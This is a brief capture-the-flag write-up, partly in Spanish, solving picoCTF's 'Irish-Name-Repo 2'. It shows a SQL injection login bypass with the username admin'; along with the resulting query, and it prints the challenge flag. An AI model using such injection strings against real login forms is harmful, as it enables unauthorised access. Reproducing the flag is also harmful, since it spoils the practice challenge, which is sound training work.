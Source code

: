 # Irish-Name-Repo 2

## Objetivos
`https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849


## Solución 
```bash
username: admin';
password: pass
SQL query: SELECT * FROM users WHERE name='admin';' AND password='pass'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
```


## Notas adicionales 
Escribi admin '; y de password utilice la palabra pass